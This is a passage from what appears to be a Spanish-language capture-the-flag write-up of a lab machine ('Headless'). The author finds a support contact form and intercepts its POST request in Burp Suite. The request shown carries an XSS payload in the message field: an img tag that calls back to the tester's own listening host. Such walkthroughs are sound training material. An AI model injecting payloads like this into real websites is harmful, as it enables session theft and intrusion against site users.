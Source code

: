 Si hacemos Click en `For questions`, vemos que nos lleva a  `http://10.10.11.8:5000/support` donde podemos ver un formulario de contacto.

![Pasted image 20240724103153.png](../assets/images-Headless/Headless2.png)

Pruebo para ver si algunos parámetros en el formulario de contactos son vulnerables, entonces intercepto la solicitud con Burpsuite e intento un ataque `Cross Site Scripting`:
```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=tets&lname=test&email=test%40test.com&phone=test&message=<img+src%3d"http%3a//10.10.16.36%3a4545/symmetry3">
```
